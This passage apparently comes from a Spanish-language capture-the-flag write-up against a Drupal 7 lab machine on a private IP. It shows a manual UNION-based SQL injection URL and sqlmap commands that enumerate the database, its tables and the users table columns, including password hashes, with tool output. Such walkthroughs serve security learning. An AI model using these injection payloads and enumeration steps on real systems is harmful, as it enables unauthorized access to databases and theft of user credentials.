 ```
> http://192.168.0.102/?nid=-1%20union%20select%20database()--%20-
d7db
```

### SQLmap

Base de datos

```
> sqlmap -u "http://192.168.0.102/?nid=1" --batch --dbs
[...]
Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: nid=-4540 UNION ALL SELECT CONCAT(0x717a7a6b71,0x52506379716d6256426976596655734954684b47676e574d76636b6650417a695541425963596b6f,0x7176766b71)-- -  // qzzkqRPcyqmbVBivYfUsIThKGgnWMvckfPAziUABYcYkoqvvkq
[...]
[*] d7db
[*] information_schema
[...]
```

Tablas `d7db`

```
❯ sqlmap -u "http://192.168.0.102/?nid=1" --batch -D d7db  --tables
[...]
taxonomy_index          
taxonomy_term_data      
taxonomy_term_hierarchy 
taxonomy_vocabulary     
url_alias               
users                   
users_roles             
variable                
views_display           
views_view              
watchdog                
webform                 
[...]
```

Columnas

```
❯ sqlmap -u "http://192.168.0.102/?nid=1" --batch -D d7db -T users --columns
[...]
+------------------+------------------+
| Column           | Type             |
+------------------+------------------+
| language         | varchar(12)      |
| access           | int(11)          |
| created          | int(11)          |
| data             | longblob         |
| init             | varchar(254)     |
| login            | int(11)          |
| mail             | varchar(254)     |
| name             | varchar(60)      |
| pass             | varchar(128)     |
| picture          | int(11)          |
| signature        | varchar(255)     |
| signature_format | varchar(255)     |
| status           | tinyint(4)       |
| theme            | varchar(255)     |
| timezone         | varchar(32)      |
| uid              | int(10) unsigned |
```